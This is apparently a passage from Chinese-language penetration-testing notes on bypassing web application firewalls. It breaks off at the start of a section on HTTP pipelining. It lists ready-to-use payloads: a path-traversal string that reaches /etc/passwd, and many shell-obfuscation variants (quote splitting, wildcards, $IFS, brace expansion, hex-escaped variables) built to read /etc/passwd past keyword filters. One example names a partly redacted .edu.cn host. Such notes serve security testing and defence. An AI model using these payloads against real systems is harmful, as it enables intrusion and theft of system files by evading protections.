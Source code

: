 **路径限制绕过**

比如 WAF 会对访问敏感路径加以限制,但是加上参数可以绕过.

比如想访问 `xxx.██.edu.cn/phpmyadmin/` 会被拦截,访问 `xxx.██.edu.cn/phpmyadmin/?id=1` 可以绕过

例如连续两个 `../` 会被拦截,可以尝试采用 `./`,例如存在关键词,可以使用 `./` 分割,linux 下 `./` 会被忽略

payload: `.././.././.././.././.././.././.././.././.././.././.././etc/./passwd`

**linux变量特性**

- 利用 * 匹配和 "" 为空白的特性
    ```bash
    \l\s -l\a\h
    ""c""at /""**c""/""""**********""a""d******""
    cat /e?c/p?ss??
    cat /e??/??ss*
    l''s
    {l<s,}
    {ls,-a}

    {cat,/etc/passwd}
    cat</etc/passwd
    ```

- 使用空的 shell 变量特性
    ```bash
    cat$IFS/etc/passwd
    cat${IFS}/etc/passwd
    IFS=,;`cat<<<cat,/etc/passwd`

    c${fuckwaf}at /e${fuckwaf}tc/${fuckwaf}pass${fuckwaf}wd
    ```

- 变量控制
    ```bash
    x=$'cat\x09/etc/passwd'&&$x
    a=f;d=ag;c=l;cat$IFS$a$c$d.php
    ```

**多重编码**
- [How to hack a company by circumventing its WAF for fun and profit - part 2](https://www.redtimmy.com/web-application-hacking/how-to-hack-a-company-by-circumventing-its-waf-for-fun-and-profit-part-2/) - 通过多重编码绕过 iRules 规则

---

## 分段传输

**利用 pipline 绕过**
- **原理**

    http 协议是由 tcp 协议封装而来,当浏览器发起一个 http 请求时,浏览器先和服务器建立起连接 tcp 连接,然后发送 http 数据包(即我们用 burpsuite 截获的数据),其中包含了一个 Connection 字段,一般值为 close,apache 等容器根据这个字段决定是保持该tcp连接或是断开.当发送的内容太大,超过一个 http 包容量,需要分多次发送时,值会变成 keep-alive,即本次发起的 http 请求所建立的 tcp 连接不断开,直到所发送内容结束 Connection 为 close 为止.

